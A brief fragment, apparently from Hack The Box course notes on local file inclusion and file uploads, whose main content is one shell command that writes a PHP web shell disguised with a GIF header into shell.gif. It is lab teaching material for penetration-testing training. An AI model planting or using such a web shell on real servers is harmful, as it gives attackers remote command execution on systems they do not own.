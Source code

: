 ```yaml
---
title: LFI and File Uploads
---
```


## Crafting Malicious Image

```
Jerad Rodgers@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```